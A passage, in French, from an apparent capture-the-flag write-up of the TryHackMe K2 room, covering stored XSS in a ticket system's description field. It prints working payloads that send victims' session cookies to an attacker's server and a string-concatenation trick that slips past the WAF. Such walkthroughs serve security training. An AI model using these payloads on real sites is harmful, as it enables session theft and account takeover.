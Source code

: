 ![Admin subdomain hidden directories](/images/THM-K2/subdomain_admin_gobuster.png)

Les tickets soumis à `http://it.k2.thm/` sont visibles à `http://admin.k2.thm/`.

Après la création d'un compte, nous soumettons quelques tickets mais il nous manque les identifiants pour accéder à la page d'administration. Puisque l'application accepte les données de l'utilisateur, testons les XSS.

Nous interceptons la requête après avoir soumis un ticket et la modifions. Nous utiliserons également deux payloads différents pour déterminer lequel des champs est vulnérable.

```
<script src="http://YOUR_IP:PORT_NUMBER/title.txt"></script>
<script src="http://YOUR_IP:PORT_NUMBER/description.txt"></script>
```

![XSS test](/images/THM-K2/XSS_test.png)

Après envoi de la requête, notre serveur web nous confirme que le champ `description` est vulnérable.

![XSS validated](/images/THM-K2/desc_vulneratble_XSS.png)

De plus, la requête contient un cookie de session et, après quelques recherches, nous apprenons que ni le drapeau `HttpOnly` ni le drapeau `Secure` ne sont activés sur ce cookie. Tous ces éléments indiquent la possibilité d'un vol de cookie.

![Cookie with no secure flags](/images/THM-K2/cookie_no_flags.png)

Nous utiliserons la payload ci-dessous.

```
<script>var i=new Image(); i.src="http://IP:PORT/?cookie="+btoa(document.cookie);</script>
```

![Cookie stealing via XSS](/images/THM-K2/cookie_stealing_XSS_payload.png)

Malheureusement pour nous, il est bloqué par le WAF (Web Application Firewall).

![WAF message](/images/THM-K2/WAF_message.png)

Après plusieurs tentatives, nous parvenons à contourner le WAF en utilisant la concaténation de chaînes.

```
<script>var i=new Image(); var c = "do" + "cument" + "." + "cookie"; i.src="http://YOUR_IP:PORT_NUMBER/?cookie="+btoa(eval(c));</script>
```

![WAF bypass payload](/images/THM-K2/XSS_payload_bypass_WAF.png)

Sur notre serveur web, nous recevons la valeur du cookie, que nous décodons avec la commande ci-dessous.

```
echo "CCOKIE_VALUE" | base64 -d
```

